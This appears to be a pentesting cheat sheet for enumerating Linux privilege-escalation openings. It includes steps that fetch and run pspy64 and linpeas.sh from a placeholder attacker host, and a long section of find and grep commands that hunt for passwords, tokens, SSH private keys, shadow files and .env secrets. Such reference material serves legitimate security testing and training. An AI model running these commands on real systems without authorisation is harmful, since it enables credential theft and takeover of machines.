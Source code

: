 # Local Privilege Escalation LPE Enumeration Methodology

### 1) Linux Local Privilege Escalation LPE Enumeration

On a linux machine, we can do some checks to see if we can exploit them to do lateral movement, or even root the machine.

#### Checks:

1) Sudo privileges (Authenticated)

       sudo -l

2) SUID bit files

        find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null	

3) Open ports/services/applications within the machine

        ss -tulpn
        netstat -ano

4) Check for running processes either as root, or as another target user for lateral movement

        wget http://ATTACK_IP:PORT/pspy64

        chmod +x ./pspy64

        ./pspy64

5) Check detailed contents of a directory like hidden files, file size, ownership

        ls -lah

6) Automated Enumeration

        wget http://ATTACK_IP:PORT/linpeas.sh

        chmod +x ./linpeas.sh

        ./linpeas.sh

7) Interesting groups of the current user

        id

8) Environment Variables

        env

9) Command history

        history

        cat /home/user/.bash_history

11) Writeable files and directories of the current user

        find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

12) Chech the current user's PATH variable contents

        echo $PATH

13) World-writeable files and directories

        find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
        find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

14) Search for passwords within a linux system

Common password files

        find / -type f \( -iname "*passwd*" -o -iname "*shadow*" -o -iname "*secret*" \) 2>/dev/null

Password in config files

       grep -r --color=auto -i "password" /etc 2>/dev/null

Sensitive keywords on files

       grep -r --color=auto -iE "(password|pass|secret|key|token)" /home /var /etc 2>/dev/null

SSH Keys

       find / -type f -name "id_rsa" -o -name "id_dsa" 2>/dev/null

Bash History

       cat ~/.bash_history | grep -iE "password|pass|secret|key|token"

Hardcoded credentials in code

       grep -r --color=auto -iE "(password|key|secret|credential)" /var/www /home

Database files

       find / -type f -iname "*.sql" -o -iname "*.db" -o -iname "*.sqlite" 2>/dev/null

Environment Variables

       find / -type f -iname ".env" 2>/dev/null
       grep -i "password" $(find / -type f -iname ".env" 2>/dev/null)
